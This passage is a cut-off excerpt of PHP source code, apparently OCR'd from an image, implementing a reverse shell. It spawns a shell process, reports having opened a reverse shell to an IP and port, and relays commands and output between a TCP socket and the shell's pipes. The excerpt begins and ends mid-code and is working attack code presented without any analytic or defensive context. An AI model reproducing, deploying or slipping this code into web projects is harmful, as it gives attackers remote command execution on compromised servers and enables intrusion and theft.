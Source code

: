 	// Spawn shell process
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);

	$process = proc_open($shell, $descriptorspec, $pipes);

	if (!is_resource($process)) {
		printit("ERROR: Can't spawn shell");
		exit(1);
	}

	// Set everything to non-blocking
	// Reason: Occsionally reads will block, even though stream_select tells us they won't
	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);

	printit("Successfully opened reverse shell to $ip:$port");

	while (1) {
		// Check for end of TCP connection
		if (feof($sock)) {
			printit("ERROR: Shell connection terminated");
			break;
		}

		// Check for end of STDOUT
		if (feof($pipes[1])) {
			printit("ERROR: Shell process terminated");
			break;
		}

		// Wait until a command is end down $sock, or some
		// command output is available on STDOUT or STDERR
		$read_a = array($sock, $pipes[1], $pipes[2]);
		$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

		// If we can read from the TCP socket, send
		// data to process's STDIN
		if (in_array($sock, $read_a)) {
			if ($debug) printit("SOCK READ");
			$input = fread($sock, $chunk_size);
			if ($debug) printit("SOCK: $input");
			fwrite($pipes[0], $input);
		}

		// If we can read from the process's STDOUT
		// send data down tcp connection
		if (in_array($pipes[1], $read_a)) {
			if ($debug) printit("STDOUT READ");
			$input = fread($pipes[1], $chunk_size);
			if ($debug) printit("STDOUT: $input");
			fwrite($sock, $input);
		}
